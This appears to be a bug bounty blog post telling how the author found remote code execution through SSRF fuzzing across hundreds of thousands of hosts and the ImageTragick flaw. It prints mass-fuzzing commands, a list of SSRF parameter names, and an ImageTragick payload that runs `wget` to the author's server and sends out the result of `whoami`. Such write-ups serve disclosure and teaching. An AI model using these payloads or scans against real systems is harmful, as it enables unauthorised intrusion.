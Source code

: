 ```yaml
---
title: "My first RCE: a tale of good ideas and good friends"
layout: post
categories:
  - hacking
tags:
  - hacking
---
```


## Summary 
Through the help of two friends, some bash tricks, the use of Tomnomnom's tool `meg`, and a service vulnerable to [ImageTragick](https://imagetragick.com/), I found my first RCE (and my first critical!) within the first two months of bug bounty hunting.

## Good friends and good ideas
I have always found value in surrounding myself with people I can learn from. In my professional work life, that's choosing to be around the most talented team member when possible. 

When I got into bug bounty, I immediately followed people like [@nahamsec](https://twitter.com/NahamSec), [@zseano](https://twitter.com/zseano), and [@stök](https://twitter.com/stokfredrik). They are very talented and get a lot of questions so I knew I needed to find other sources of help as well. Ben (@nahamsec) started a discord. HackerOne also has a discord. I met [@healthyoutlet](https://twitter.com/healthyoutlet) on one of those discords and we've been friends ever since. We're constantly bouncing ideas off each other. One day I told him it would be awesome to use [@tomnomnom](https://twitter.com/TomNomNom)'s `[meg](https://github.com/tomnomnom/meg)` tool to hit ALL public bounty subdomains with different high-signal payloads and then grepping for signs that it was vulnerable. Like most hackers, he's a doer so he immediately pulled down the github repo of all public programs (https://github.com/arkadiyt/bounty-targets-data), found the domains for the wildcards with [findomain](https://github.com/Edu4rdSHL/findomain), and sent me the list. 

<iframe src="https://giphy.com/embed/oYtVHSxngR3lC" width="480" height="347" frameBorder="0" class="giphy-embed" allowFullScreen></iframe>

It was around 300,000 subdomains and >600,000 hosts because almost all were running on both port 80 and 443. 

We tried lots of different payloads:
* CRLF via %0d%0a
* Path traversal
* Known sensitive paths
* etc.

The idea that resulted in this write-up (and therefore, my first critical!) was parameter fuzzing. I had the idea to search for SSRF via stuffing a bunch of parametes into a request like:
```
https://example.com?url=myserver.com/url&file=myserver.com/file...
```

So I was telling [@michael1026](https://twitter.com/Michael1026H1) about my idea and he suggested a big list of parameters. Since Discord keeps good history, I dug it up for this post:
```
content, counturl, dest_url, document, domain, download, file, http, https, image, image_src, imageurl, include, media, Page, pageurl, page_url, picture, referrer, req, request, source, src, uri, url
```

I am pretty frugal, and I hadn't made any money from bug bounty at this point so I didn't have Burp Pro and the collaborator. So here was the steps I took:
1. Start a simple server on my VPS with `python3 -m http.server <random port number>`
2. Run `meg -c 100 -d 100 -s 777 "/?url=http://{my-server-ip}&file=http://{my-server-ip}&path=..." all_hosts.txt`. I used return code 777 because I didn't really want to save off any repsponses.  
3. Wait for a ping on my server.
4. ???
5. Profit!

Oh wait... maybe you already spotted the issue. I got a few pings on my simple http server, and I got really excited. But then I realized that I had no idea what parameter or host was vulnerabe.

## What I did to find the host and param name
I used the linux `split` command to cut the hosts into 100 files and wrote a for loop to iterate over them. I watched the simple server logs to see when I got a hit. Then I broke that flie into 100 files and did it again until I figured out the host. I did something similarly stupid to figure out the param name. It took a few hours when it shouldn't have, but it ended up being worth it :)

## What I should have done
1. I should have used [ffuf](https://github.com/ffuf/ffuf). It's an awesome and flexible fuzzer. Check it out if you haven't used it. 
2. I should have added the parameter name to the path. Then I would immediately know which parameter was vulnerable.
3. It would have been nice to include the domain in the path of the request so I would know which domain was vulnerable. This has to change PER request, which isn't trivial. I could have used some bash magic and curl. But nowadays, with the new pitchfork mode in ffuf, I could have requested the domain in the endpoint path pretty easily. 

Putting it all together, I should have done: 
```
ffuf -c -u HOST/?url=http://{my-server-ip}/DOMAIN/url&file=http://{my-server-ip}/DOMAIN/file -w hosts.txt:HOST -w domains.txt:DOMAIN -mode pitchfork -v 
```
Hosts.txt would contain hosts including the protocol. Domains would be the hosts WITHOUT the protocal lining up line-per-line with the hosts. You could easily generate this with @tomnomnom's tool `unfurl` via a command like this: `cat hosts.txt | unfurl -format %d | tee -a domains.txt`

## Wrapping up

The vulnerable host had the word image in the subdomain. So I hosted an image on my server and did `curl -v https://vulnerablehost.com/url=http://{my-server-ip}/image.jpg` and sure enough, the vulnerable host grabbed the image from my server and then delivered it to me. I was telling [@healthyoutlet](https://twitter.com/healthyoutlet) everything I was doing and asking for advice. He told me to check the downloaded image size. sure enough, it was completely different than the original. I opened up an image compare tool and there were lots of pixel differences. It was definitely being processed. So then [@healthyoutlet](https://twitter.com/healthyoutlet) mentions that it might be using [ImageTragick](https://imagetragick.com/) and to look into it. I quickly googled it, found the PoC's on github and modified it so that the code being executed was 
```
push graphic-context
viewbox 0 0 640 480 
fill 'url(https://127.0.0.0/oops.jpg"|wget http://{my-server-ip}/$(whoami)'
pop graphic-context
```
After a few seconds, I got a hit on my simple server at `/Serving`. Not root, but still proved RCE by the request AND the username of the user running the web server.

<iframe src="https://giphy.com/embed/8JVjMCr3OIAhO" width="480" height="178" frameBorder="0" class="giphy-embed" allowFullScreen></iframe>

So, with imagetragick, an attacker can replace everything to the right of the pipe with whatever code they want.

## Take-aways

* Friends and collaboration are immensely valuable, especially when you're first starting. I wouldn't have found this without my friends helping.
* Creativity and huge data sets can lead to interesting findings.
* Don't assume old CVEs aren't still around. ImageTragick is a 2016 CVE and this was found on a well-known public bug bounty program.

I hope you enjoyed the write-up. I've got a few more from the last few months that might be interesting. 
